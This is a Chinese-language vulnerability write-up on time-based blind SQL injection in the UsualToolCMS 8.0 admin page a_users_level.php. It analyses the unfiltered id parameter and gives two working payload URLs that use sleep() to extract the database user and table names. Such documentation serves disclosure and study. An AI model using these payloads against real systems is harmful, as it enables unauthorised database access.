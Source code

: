 UsualToolcms 8.0 后台盲注
=========================

一、漏洞简介
------------

二、漏洞影响
------------

UsualToolCMS-8.0-Release

三、复现过程
------------

### 漏洞分析

./cmsadmin/a\_users\_level.php第19行和第26行，id参数可控

![](/Users/aresx/Documents/VulWiki/.resource/UsualToolcms8.0a_users_level.php后台盲注/media/rId25.png)

从get处获取id参数，id存在无任何过滤，当postt
id时，通过sqlcheck函数进行过滤，来到文件./class/UsualToolCMS\_INC.php第33行，将(\',\\,\",null)转义，34行调用sqlchecks函数，比没过滤sql，然而a\_users\_level.php第19行id不是字符

![](/Users/aresx/Documents/VulWiki/.resource/UsualToolcms8.0a_users_level.php后台盲注/media/rId26.png)

### 复现

可以利用时间盲注来进行sql注入攻击，payload如下：

    a.当前数据库：http://0-sec.org:8080/UsualToolCMS/cmsadmin/a_users_level.php?x=m&id=2 and if(ascii(substr(user(),1,1))=114,sleep(6),1)
    b.表：http://0-sec.org:8080/UsualToolCMS/cmsadmin/a_users_level.php?x=m&id=2 and if(ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>30,sleep(6),1)

![](/Users/aresx/Documents/VulWiki/.resource/UsualToolcms8.0a_users_level.php后台盲注/media/rId28.png)

时间盲注验证脚本

![](/Users/aresx/Documents/VulWiki/.resource/UsualToolcms8.0a_users_level.php后台盲注/media/rId29.png)

image
